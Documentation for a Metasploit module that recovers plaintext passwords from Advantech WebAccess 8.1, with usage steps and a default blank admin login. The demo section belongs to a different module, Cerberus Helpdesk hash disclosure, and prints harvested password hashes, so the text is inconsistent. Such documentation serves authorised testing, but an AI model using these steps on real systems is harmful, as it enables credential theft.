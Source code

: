 ## Description

This module exploits three vulnerabilities in Advantech WebAccess.

The first vulnerability is the ability for an arbitrary user to access the admin user list page,
revealing the username of every user on the system.

The second vulnerability is the user edit page can be accessed loaded by an arbitrary user, with
the data of an arbitrary user.

The final vulnerability exploited is that the HTML Form on the user edit page contains the user's
plain text password in the masked password input box. Typically the system should replace the
actual password with a masked character such as "*".


## Vulnerable Application

Version 8.1 was tested during development:

http://advcloudfiles.advantech.com/web/Download/webaccess/8.1/AdvantechWebAccessUSANode8.1_20151230.exe

8.2 is not vulnerable to this.

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gahter/advantech_webaccess_creds```
3. ```set WEBACCESSUSER [USER]```
4. ```set WEBACCESSPASS [PASS]```
5. ```run```

## Options

**WEBACCESSUSER**

The username to use to log into Advantech WebAccess. By default, there is a built-in account
```admin``` that you could use.

**WEBACCESSPASS**

The password to use to log into AdvanTech WebAccess. By default, the built-in account ```admin```
does not have a password, which could be something you can use.


## Demo

msf > use auxiliary/gather/cerberus_helpdesk_hash_disclosure
msf auxiliary(cerberus_helpdesk_hash_disclosure) > show options

Module options (auxiliary/gather/cerberus_helpdesk_hash_disclosure):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads
   URI      /                no        URL of the Cerberus Helpdesk root
   VHOST                     no        HTTP server virtual host

msf auxiliary(cerberus_helpdesk_hash_disclosure) > set rhosts 10.90.5.81
rhosts => 10.90.5.81
msf auxiliary(cerberus_helpdesk_hash_disclosure) > run

[-] Invalid response received for /storage/tmp/devblocks_cache---ch_workers
[+] admin:aaa34a6111abf0bd1b1c4d7cd7ebb37b
[+] example:112302c209fe8d73f502c132a3da2b1c
[+] foobar:0d108d09e5bbe40aade3de5c81e9e9c7
